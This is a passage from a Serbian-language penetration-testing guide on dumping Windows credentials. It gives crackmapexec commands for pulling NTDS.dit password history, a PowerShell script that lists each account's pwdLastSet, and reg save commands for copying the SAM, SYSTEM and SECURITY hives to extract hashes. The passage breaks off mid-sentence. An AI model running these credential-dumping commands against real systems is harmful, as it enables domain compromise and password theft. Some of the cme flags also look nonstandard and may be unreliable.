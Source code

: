 Nakon izvršavanja ovih koraka, istorija lozinki NTDS.dit će biti preuzeta i smeštena u izolovanu mapu koju ste odredili.

```
#~ cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --ntds-history
```

### Prikazivanje atributa pwdLastSet za svaki NTDS.dit nalog

Da biste prikazali atribut pwdLastSet za svaki NTDS.dit nalog, možete koristiti sledeći PowerShell skript:

```powershell
$ntds = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().GetDirectoryEntry()
$searcher = New-Object System.DirectoryServices.DirectorySearcher($ntds)
$searcher.Filter = "(objectClass=user)"
$searcher.PropertiesToLoad.Add("pwdLastSet")

$results = $searcher.FindAll()

foreach ($result in $results) {
    $user = $result.GetDirectoryEntry()
    $pwdLastSet = [System.DateTime]::FromFileTime($user.Properties["pwdLastSet"].Value)

    Write-Host "Account: $($user.Properties["sAMAccountName"].Value)"
    Write-Host "pwdLastSet: $pwdLastSet"
    Write-Host ""
}

$searcher.Dispose()
```

Ovaj skript će prikazati atribut pwdLastSet za svaki NTDS.dit nalog, zajedno sa odgovarajućim korisničkim imenom (sAMAccountName).

```
#~ cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --ntds-pwdLastSet
```

## Krađa SAM i SYSTEM fajlova

Ovi fajlovi se **nalaze** u _C:\windows\system32\config\SAM_ i _C:\windows\system32\config\SYSTEM._ Ali **ne možete ih jednostavno kopirati** jer su zaštićeni.

### Iz registra

Najlakši način da ukradete ove fajlove je da dobijete kopiju iz registra:

```
reg save HKLM\sam sam
reg save HKLM\system system
reg save HKLM\security security
```

**Preuzmite** te datoteke na vaš Kali uređaj i **izvucite hešove** koristeći:
